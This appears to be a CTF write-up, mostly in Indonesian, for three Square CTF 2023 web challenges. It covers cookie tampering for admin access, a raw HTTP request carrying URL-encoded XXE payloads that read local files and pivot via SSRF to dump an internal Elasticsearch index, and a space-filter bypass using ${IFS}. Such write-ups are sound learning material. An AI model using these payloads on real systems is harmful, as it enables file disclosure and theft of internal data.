 ```yaml
---
title: Square CTF
date: 2023-11-12 00:00:00 +/-TTTT
categories: [CTFs Archive, 2023 CTF]
tags: [CTFs]     # TAG names should always be lowercase
comments: true
---
```


- Tags: international
- Status: Done
- pwned: 3

# Be the admin

we need to become admin by changing the cookie

1. admin biasa ganti cookie
2. A nya gede

# Just go around

path traversal

```python
POST /accept HTTP/1.1
Host: 184.72.87.9:8013
Content-Length: 282
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://184.72.87.9:8013
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://184.72.87.9:8013/post
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

postXml=%3c%3fxml%20version%3d%221.0%22%20encoding%3d%22UTF-8%22%20%3f%3e%3c!DOCTYPE%20foo%20%5b%20%3c!ENTITY%20xxe%20SYSTEM%20%22file:///%22%3e%20%5d%3e%3cpost%20author%3d%22CTF%20Participant%22%20id%3d%220%22%20title%3d%22*%22%3e%3cmessage%3e%26xxe%3b%3c%2fmessage%3e%3c%2fpost%3e
```

dari sini kita bisa analisa source code nya adapun flag di dalam service tersebut hal ini dikarenakan.

setelah saya membaca controller flag seperti nya terdapat di service lain yaitu

        `.builder(HttpHost.create("http://"+System.getProperty("ELASTIC_HOST", "db")+":9200"))`

flag tersebut terdapat di sebuah host elastic search untuk leak all data kita dapat menggunkan query berikut:

[`https://db:9200/_search?pretty=true`](https://db:9200/_search?pretty=true)

sehingga payload menjadi

```python
%3c%3fxml%20version%3d%221.0%22%20encoding%3d%22UTF-8%22%20%3f%3e%3c!DOCTYPE%20foo%20%5b%20%3c!ENTITY%20xxe%20SYSTEM%20%22http://db:9200/_search?pretty=true%22%3e%20%5d%3e%3cpost%20author%3d%22CTF%20Participant%22%20id%3d%220%22%20title%3d%22*%22%3e%3cmessage%3e%26xxe%3b%3c%2fmessage%3e%3c%2fpost%3e
```

# Sandbox

terdapat blacklist space

`cat${IFS}flag.txt`


